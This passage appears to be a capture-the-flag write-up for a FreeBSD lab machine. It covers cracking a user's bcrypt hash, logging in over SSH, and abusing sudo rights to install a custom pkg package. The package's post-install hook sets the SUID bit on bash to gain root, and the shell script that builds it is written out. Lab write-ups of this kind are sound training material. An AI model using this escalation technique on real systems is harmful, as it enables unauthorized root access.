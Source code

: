 We can Jamie's data there and he's a user on the box

<img src="https://imgur.com/tOJXYUo.png"/>

It's a bcrypt hash ,save it in a file and crack it with either hashcat or john

<img src="https://imgur.com/5Dma5Sz.png"/>

SSH into the machine

<img src="https://imgur.com/XObMUOT.png"/>

Doing `sudo -l` we can see that this user can install any package

<img src="https://imgur.com/7qHpWOS.png"/>

Reading the configuration file for pkg

<img src="https://imgur.com/zfzP9jH.png"/>

It grabs from `devops.htb` which points to a private IP

<img src="https://imgur.com/0SBJBgC.png"/>

But it wasn't anything we could do so , searched for freebsd custom packages and found this article 

http://lastsummer.de/creating-custom-packages-on-freebsd/

Which explained how you can build your own packages,  so bascially what this script is doing that creating a folder in james' home directory named `stage` and a `+PRE_DEINSTALL` , `+POST_INSTALL` and `+MANIFEST` file .

The article says that 

> You want to run post-install and pre-deinstall tasks as it makes sure your files are in place when you do the system manipulation

So let's modify the script from article and make put a command that will make bash a SUID  in `+POST_INSTALL` 


```bash

#!/bin/sh

STAGEDIR=~/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/sh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
chmod +s /usr/local/bin/bash
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
```